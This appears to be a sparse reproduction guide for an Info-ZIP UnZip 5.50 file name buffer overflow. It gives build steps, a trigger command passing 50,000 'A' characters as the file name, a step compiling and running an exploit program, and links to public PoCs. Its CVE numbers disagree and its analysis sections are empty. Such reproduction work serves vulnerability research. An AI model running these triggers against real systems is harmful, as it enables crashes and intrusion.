 # CVE-2005-4646

## Experiment Environment

CentOS 6.5

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2005-4667/unzip550.tar.gz
tar -xvf unzip550.tar.gz
cd unzip-5.50
make -f unix/Makefile
sudo cp unzip /usr/bin/unzip
```

## Problems in Installation & Configuration


## How to trigger vulnerability

### Method 1

```
./unzip `perl -e 'print "A" x 50000'` 
```

### Method 2

```
gcc -o exploit unzip-expl.c
./exploit
```

## PoCs

[Info-ZIP UnZip File Name Buffer Overflow Vulnerability](https://www.securityfocus.com/bid/15968/exploit)

[Info-ZIP UnZip 5.x - File Name Buffer Overflow](https://www.exploit-db.com/exploits/26913/)

## Vulnerability Details & Patch

### Root Cause

### Stack Trace

### Patch

## References
